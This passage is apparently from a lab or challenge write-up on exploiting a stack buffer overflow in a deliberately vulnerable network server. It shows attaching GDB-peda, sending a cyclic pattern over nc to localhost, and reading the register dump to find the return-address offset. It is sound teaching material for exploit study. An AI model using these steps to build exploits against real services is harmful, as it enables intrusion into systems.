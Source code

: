 The overflow is happening at the `strcpy()`.

## Start server

We start the vulnerable server in the background, and attach it with GDB to the pid:

```
root@hlUbuntu64:~/challenges/challenge15# ./challenge15 &
[1] 17147
root@hlUbuntu64:~/challenges/challenge15# Listen on port: 5001

root@hlUbuntu64:~/challenges/challenge15# echo $!
17147
root@hlUbuntu64:~/challenges/challenge15# gdb -q
gdb-peda$ attach 17147
[...]
gdb-peda$ set follow-fork-mode child
gdb-peda$
```

Note that the server is paused right now, because we want to  issue another GDB
command. But we could continue it with `c`.

## Find offset

As first step, we can create a peda pattern, which makes it easier for us to identify
the offset to SIP. It should be bigger that the destination buffer (256 bytes in our case).
```
gdb-peda$ pattern create 300
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%'
```

We attached GDB to the server process, which paused the process. We also told GDB to follow children.
Lets continue the process:
```
gdb-peda$ c
Continuing.
```

The server is now unpaused. Lets send the peda pattern to the server:
```
root@hlUbuntu64:~/challenges/challenge15# echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%' | nc localhost 5001
```

We have the following output in GDB:

```
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x73 ('s')
RDX: 0x6
RSI: 0x400c9e --> 0x20746e65696c4300 ('')
RDI: 0x7fffffffdff6 ("sAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A"...)
RBP: 0x2541322541632541 ('A%cA%2A%')
RSP: 0x7fffffffdbd8 ("HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%\n")
RIP: 0x4009c2 (<handleData+92>: ret)
R8 : 0x0
R9 : 0x138
```